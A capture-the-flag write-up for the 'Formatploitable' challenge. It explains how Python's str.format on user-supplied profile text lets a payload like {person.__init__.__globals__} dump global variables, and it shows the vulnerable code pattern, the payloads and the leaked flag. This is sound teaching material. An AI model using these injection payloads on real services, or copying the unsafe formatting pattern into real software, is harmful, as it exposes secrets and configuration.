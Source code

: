 ```yaml
---
title: "Lag'n'Crash CTF: Formatploitable"
date: "2021-03-14T08:13:21Z"
description: "Write-up for Lag'n'Crash CTF challenge, Formatploitable"
---
```

# Challenge Overview
[_Skip to solution_](#Solution)

This challenge is under the Misc category.
> Our intel says that the flag is a global variable in this python program, yet we cannot retrieve it through normal means.
>
> nc challenge1.lagncrash.com 13028

Connecting to the server we are presented with four options.
```
Welcome to Rafale 1.0!
1) Create profile
2) View badge
3) Patch Notes
4) Exit
```

**Create profile**:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
Hi, I'm Dave
```

**View badge**:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : Hi, I'm Dave
╚════════════════════════════════════════════════
```

**Patch Notes**:
```
(picked option 3)
Update 1.0.94795585:
The choice to format your profile has been added!

Example profile: Hi! Im {}, nice to meet you!

Further implementations coming soon!
```

# Solution
This challenge attempts to demonstrate the unsafe nature of Python's `.format()`.
Behind the scenes, the profile is displayed by a script similar to:
```python
class Person:
    def __init__(self, name, profile):
        self.name = name
        self.profile = profile


# Note that s is a socket
# When creating a profile:
name_format = s.recv(1024)
profile_format = s.recv(1024)
person = Person(name_format, profile_format)

# When displaying the profile
name = name_format.format(person=person)
s.sendall(name)
profile = profile_format.format(person=person)
s.sendall(profile)
```

We are expected to guess that the data is formatted using the `person` keyword
argument. Then, using the `Person` object, we access the global variables using
`__globals__`:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{person.__init__.__globals__}
```
Then, view our profile:
```
(picked option 2)
╔════════════════════════════════════════════════
║Name : Dave
║Bio  : {'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7f7b70094d00>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': 'Formatploitable.py', '__cached__': None, 'CONFIG': {'FLAG': '{sTr1ng_f0rm4tT1nG_xpl0it3d}'}, 'Person': <class '__main__.Person'>, 'cont': True, 'choice': '2', 'person': <__main__.Person object at 0x7f7b6ffaccd0>}
╚════════════════════════════════════════════════
```

So we can see the flag is `LNC{sTr1ng_f0rm4tT1nG_xpl0it3d}`.

# Explanation and other possibilities
## 1. Keyword arguments vs positional arguments
Personally, I had a lot of trouble finding the word that was used because I did
not expect to guess the keyword argument used.

The vulnerability demonstrated here can also be shown through positional
arguments:
```python
# When displaying the profile
name = name_format.format(person)
s.sendall(name)
profile = profile_format.format(person)
s.sendall(profile)
```
Then, the payload will need to be adjusted to:
```
(picked option 1)
Enter name: Dave
Welcome Dave! Enter a short biography for your profile:
{0.__init__.__globals__}
```

## 2. `__globals__` is only accessible by user-defined functions and imported functions
It should be noted that if the given code used is:
```python
# When displaying the profile
name = name_format.format(person.name)
s.sendall(name)
profile = profile_format.format(person.profile)
s.sendall(profile)
```

It is not possible to access the global variables. This is because `__globals__`
is a special attribute given to all [user-defined functions](https://docs.python.org/3/reference/datamodel.html#index-34)
and all [imported functions](https://docs.python.org/3/reference/datamodel.html#index-42).

For example, we have already seen a user-defined function (technically _method_)
in the `Person` object. The same problem will arise for functions:
```python
def hello():
    pass

print(hello.__globals__)
```

Likewise, for imported functions:
```python
import base64
print(base64.b64encode.__globals__)
```
Imported functions will display the `__globals__` for their module.
